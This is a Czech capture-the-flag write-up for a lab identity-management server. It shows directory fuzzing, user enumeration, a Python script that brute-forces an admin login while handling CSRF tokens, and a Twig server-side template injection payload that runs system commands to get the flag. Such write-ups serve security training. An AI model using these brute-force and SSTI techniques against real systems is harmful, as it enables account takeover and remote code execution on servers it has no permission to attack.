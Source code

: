 # Role Management System (4)

## Zadání

Hi, emergency troubleshooter,

we urgently need to replace the outdated identity management system with a new progressive solution. Verify that it is functioning properly and that no information leakage is occurring. New instance is running on server `idm-new.powergrid.tcc`.

Stay grounded!

## Nápovědy (Hints)

1. Even if you find what you are looking for, you must use brut(al) force to get it!

## Řešení

Začneme skenováním serveru

`ffuf -u http://idm-new.powergrid.tcc/FUZZ -w /usr/share/dirb/wordlists/common.txt`

```text
announcement            [Status: 200, Size: 4202, Words: 924, Lines: 135, Duration: 29ms]
index.php               [Status: 200, Size: 1813, Words: 385, Lines: 55, Duration: 21ms]
js                      [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 6ms]
login                   [Status: 200, Size: 2537, Words: 676, Lines: 73, Duration: 24ms]
logout                  [Status: 302, Size: 362, Words: 60, Lines: 12, Duration: 23ms]
server-status           [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 8ms]
styles                  [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 7ms]
user                    [Status: 200, Size: 3060, Words: 850, Lines: 90, Duration: 16ms]
```

Zajímavý je adresář user

`ffuf -u http://idm-new.powergrid.tcc/user/FUZZ -w /usr/share/dirb/wordlists/common.txt`

```text
02                      [Status: 200, Size: 2504, Words: 888, Lines: 71, Duration: 41ms]
01                      [Status: 200, Size: 2510, Words: 888, Lines: 71, Duration: 44ms]
04                      [Status: 200, Size: 2506, Words: 888, Lines: 71, Duration: 44ms]
03                      [Status: 200, Size: 2508, Words: 888, Lines: 71, Duration: 45ms]
06                      [Status: 200, Size: 2502, Words: 888, Lines: 71, Duration: 42ms]
07                      [Status: 200, Size: 2502, Words: 888, Lines: 71, Duration: 42ms]
08                      [Status: 200, Size: 2498, Words: 888, Lines: 71, Duration: 44ms]
09                      [Status: 200, Size: 2504, Words: 888, Lines: 71, Duration: 45ms]
05                      [Status: 200, Size: 2502, Words: 888, Lines: 71, Duration: 47ms]
10                      [Status: 200, Size: 2504, Words: 888, Lines: 71, Duration: 51ms]
1                       [Status: 200, Size: 2510, Words: 888, Lines: 71, Duration: 51ms]
...
```

Uživatel `http://idm-new.powergrid.tcc/user/22` má oprávnění `ROLE_ADMIN`.

```text
Username: ella.reed
Email: ella.reed@powergrid.tcc
Roles:
ROLE_ADMIN ROLE_USER
```

Stránka je opět zabezpečena pomocí CSRF, takže na hádání hesel použijeme skript, který si s tím poradí.

```python
import requests
import time

s = requests.Session()

r = s.get("http://idm-new.powergrid.tcc/login")

csrf = r.text.split('name="_csrf_token" value="')[1].split('"')[0]

passwords = open("john.lst", "br").read().split(b"\n")

for password in passwords:
    print(password)
    r = s.post("http://idm-new.powergrid.tcc/login",
            data={"_username" : "ella.reed@powergrid.tcc", "_password" : password, "_csrf_token" : csrf})

    if r.status_code != 200:
        print("Error", r.status_code)
        continue

    if not "Invalid credentials" in r.text:
        print("--> ",password)
        exit()
```

Heslo `123abc` je brzy nalezeno.

Na administrační stránce <http://idm-new.powergrid.tcc/admin/users> je zadávací pole pro vyhledávání uživatelů. Pokud zadáme {% raw %}`${{<%[%'"}}%\.`{% endraw %}, server odpoví

`No users found for query: Unexpected character "'" in "__string_template__d76c5c01274d0ce05c0b3d779259adbe" at line 1.`

To znamená, že útok bude směřovat na SSTI (Server Side Template Injection).

Zkoušením podle tabulky

![alt text](ssti.png)

Je backend buď Jinja2 nebo Twig.

Podle testu {% raw %}`{{7*'7'}}`{% endraw %}, který vrátil 49 je backend Twig.

{% raw %}`{{['set'] | filter('system')}}`{% endraw %} vrátí Base64 FLAG `RkxBR3tUaEtILWRxaW8tNDlBWC1TWmxHfSAK`

## Flag

`FLAG{ThKH-dqio-49AX-SZlG}`
